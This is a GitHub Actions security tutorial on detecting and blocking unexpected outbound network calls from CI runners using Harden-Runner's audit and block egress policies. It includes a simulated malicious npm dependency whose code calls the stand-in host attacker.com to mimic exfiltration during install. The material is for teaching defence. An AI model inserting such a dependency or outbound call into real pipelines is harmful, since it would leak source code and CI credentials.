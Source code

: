 # Filter Network Traffic

## Example Action: 
Description:
An example GitHub Actions workflow that allows unrestricted outbound network access, potentially exposing source code and CI/CD credentials.

```
name: "Hosted: Network Monitoring with Harden-Runner"
on:
  workflow_dispatch:

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: step-security/harden-runner@v2
        with:
          egress-policy: audit
      - uses: actions/checkout@v3
      - name: npm install
        run: |
          cd ./src/exfiltration-demo
          npm install
      - name: Publish to Registry
        uses: elgohr/Publish-Docker-Github-Action@v5
        with:
          name: ${{ github.repository }}/prod:latest
          username: ${{ github.actor }}
          password: ${{ secrets.GITHUB_TOKEN }}
          registry: ghcr.io
          workdir: ./src/exfiltration-demo
```

Here src/package.json has following dependencies
```
  "dependencies": {
    "@step-security/malware-simulator": "file:../malware-simulators/exfiltration-simulator"
  },
```

And the malware-simulator is making a call to `https://attacker.com/`
```
https
  .get("https://attacker.com/", (res) => {
    // handle response
  }
```

## Steps to Identify the Vulnerability:
### Review Outbound Network Access:
Use `step-security/harden-runner@v2` in your workflow and then Run the workflow.
```
- uses: step-security/harden-runner@v2
  with:
    egress-policy: audit
```

After the workflow completes, check out the build logs. In the Harden-Runner step, you will see a link to security insights and recommendations. When you open the link you will see dashboard like this. Here you can figure out all the outbound network calls and check if any of the domain looks suspicious (in below example attacker.com). 

<img width="1063" alt="Screenshot 2023-12-10 at 3 44 08 PM" src="https://github.com/learningcicd/github-actions-goat-test/assets/76629897/5b689ee6-6e0a-498d-b517-2ab9695a6853">

## Steps to Mitigate the Vulnerability:
### Block calls to domains 
Analyze the output of the Harden-Runner step, it will give you insight of which outbound calls are happening and in which step this calls are being made. You can either choose to replace such code for those steps or you can choose to block calls to all domains except the allowed domains which you configure. You can do allowed domains configuration by changing the `step-security/harden-runner@v2` step as follow
```
- name: Harden Runner
  uses: step-security/harden-runner@v2
  with:
    disable-sudo: true
    egress-policy: block
    allowed-endpoints: >
      ghcr.io:443
      github.com:443
      registry.npmjs.org:443
```

